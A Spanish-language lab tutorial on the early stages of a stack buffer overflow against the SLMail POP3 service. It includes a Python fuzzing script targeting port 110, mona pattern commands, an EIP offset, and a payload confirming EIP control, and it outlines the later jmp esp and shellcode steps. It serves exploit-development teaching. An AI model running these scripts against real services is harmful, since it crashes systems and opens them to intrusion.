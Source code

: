 
---
# Checklist — Fases iniciales de un Buffer Overflow

- [ ] Identificar los límites del programa objetivo introduciendo más caracteres de los permitidos en los campos de entrada (como cadenas o archivos).
- [ ] Detectar cuándo se produce una corrupción o fallo en la aplicación al superar esos límites.
- [ ] Determinar el offset exacto: la cantidad precisa de caracteres necesarios para sobrescribir el contenido del registro EIP.
- [ ] Confirmar que el registro EIP puede ser sobrescrito con un valor controlado por nosotros.
- [ ] Diseñar un exploit personalizado para el programa objetivo que permita tomar control del registro EIP y ejecutar código malicioso.

---
# Fase inicial — Fuzzing y control del registro EIP

En esta etapa vamos a descubrir **cuándo** y **dónde** se rompe el servicio vulnerable y cómo asegurarnos de que, llegado el momento, el registro **EIP** quede bajo nuestro control.

---

## 1. Objetivo de la fase de fuzzing

1. **Detectar el punto de fallo**  
   Enviamos cadenas cada vez más largas hasta provocar la caída del proceso.  
2. **Calcular el offset exacto**  
   Averiguamos cuántos bytes necesita la cadena para que los cuatro del registro EIP sean sobrescritos por datos que enviamos nosotros.

---

## 2. Fuzzing incremental

Empezamos con un script sencillo que:

1. Abre conexión contra el servicio POP3 de **SLMail** (puerto 110).  
2. Envía la secuencia `USER <payload>\r\n`.  
3. Incrementa el tamaño del _payload_ en bloques de 100 bytes.  
4. Registra en qué longitud el servicio deja de responder.

> **Consejo:** hacemos que el script se detenga 5 segundos tras cada envío para dar tiempo a que SLMail crashee y a Immunity Debugger a registrar el fallo.

```python
#!/usr/bin/env python3
import socket, time, sys

ip   = "192.168.56.101"   # VM con Windows 7 + SLMail
port = 110
step = 100
limit = 3000              # máxima longitud a probar

for size in range(step, limit + step, step):
    try:
        s = socket.create_connection((ip, port), timeout=10)
        banner = s.recv(1024)
        print(f"[+] Enviando {size} bytes")
        s.sendall(b"USER " + b"A" * size + b"\r\n")
        time.sleep(1)
        s.close()
    except:
        print(f"[!] Crash detectado a ~{size} bytes")
        sys.exit(0)
````

### Resultado esperado

En Immunity veremos un **Access Violation** cuando `SLMail.exe` intenta acceder a memoria inválida. Anotamos el tamaño en el que ocurre.

---

## 3. Generar un patrón único

Ahora sustituimos la ristra de “A” por un patrón que no repite secuencias (de Corelan / Metasploit). Con **mona.py**:

```bash
!mona pattern_create 3000
```

Copiamos la cadena generada y la insertamos en nuestro script (solo una vez, nada de incrementos). Al provocar el crash otra vez, Immunity mostrará un valor como:

```
EIP  39684338
```

---

## 4. Calcular el offset exacto

En la ventana de comandos de Immunity:

```bash
!mona pattern_offset 0x39684338
```

Mona devuelve, por ejemplo:

```
[+] Offset found at 2606
```

Eso significa que **exactamente 2 606 bytes** llegan a EIP; los 4 siguientes lo sobreescriben.

---

## 5. Verificar que controlamos EIP

Creamos otra prueba:

1. **2 606 bytes** de relleno (p. ej. `"A"`),
    
2. **4 bytes** conocidos (por comodidad `"B"*4` = `0x42424242`),
    
3. Resto de la cadena (por ahora basura).
    

```python
payload = b"A" * 2606 + b"B" * 4 + b"C" * 500
```

Tras ejecutar el script, Immunity debería mostrar:

```
EIP  42424242
```

¡Objetivo cumplido! Hemos demostrado que podemos colocar el valor que queramos en el registro EIP y, por tanto, redirigir el flujo del programa.

---

## 6. Próximos pasos

1. **Localizar un “jmp esp”** o instrucción equivalente en un módulo sin protecciones (sin ASLR, sin DEP, RWX).
    
2. Sustituir los cuatro “B” por la dirección de esa instrucción escrita en **little-endian**.
    
3. Construir el _shellcode_ y colocarle un **NOP-sled** antes para asegurar la ejecución.
    

---


